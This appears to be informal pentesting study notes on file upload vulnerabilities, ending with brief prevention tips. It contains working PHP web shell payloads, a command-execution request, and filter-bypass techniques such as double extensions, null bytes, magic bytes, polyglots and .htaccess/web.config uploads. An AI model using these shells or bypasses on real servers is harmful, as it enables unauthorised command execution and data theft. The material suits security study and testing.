 # file upload
when files are uploaded
and not checked

its possible to upload fe a webshell
and then acces the webshell

## uploads
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
xample/exploit.php?command=id HTTP/1.1

## formdata
sometimes it only checks if a content type is image/png or something
you can ez do it in burpsuite
or with js see "script/file_upload_blob.js" you could just execute this in console

## path traversal
sometimes using path traversal techniques can be used in the filename

## extensions
or filename extension of lesser known could be used
.php5
.shtml

## server side preventions
some config files are used to prevent access or execution of certain files
these might be interesting to try to retrieve if possible 
if we can upload these than we can even let files we are able to upload fe allow php to work

web.config:
`<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers>
            <!-- Add handler to process PHP files -->
            <add name="PHP-FastCGI" path="*.php" verb="*" modules="FastCgiModule" scriptProcessor="C:\path\to\php\php-cgi.exe" resourceType="Either" requireAccess="Script" />
        </handlers>
    </system.webServer>
</configuration>`


.htaccess:
`AddHandler application/x-httpd-php .php`

## file name obfuscation
using multiple extensions
.php.jpg

trailing characters
.php.

encoding
%2Ephp

null byte characters maybe with encoding
.php;.jpg
.php%00.jpg

if replacing things and its not recursive
.ph.phpp

## filecontent
might be that a server will get the widht en height of image,
ofc with a script its not possible

or first bytes of a file need to be those of a image format
then magicbytes can be added in the beginning of a script to bypass this
jpeg: FF D8 FF

## polyglot
using exiftool trivial malicious code could be stored in a jpgs metadata
or just at the end of the file see [polyglot.sh](script/file_upload_polyglot.sh)

## put
sometimes other requests are excepted and not only GET or POST
fe PUT, OPTIONS

## prevention
splitting on . of the filename and checking against a whitelist
if removing dissalowed extensions do it recursively
making sure directeroy traversal cant be used: ../
renaming uploaded files
only allow scanned files to be uploaded
dont write this yourself, use established technologys

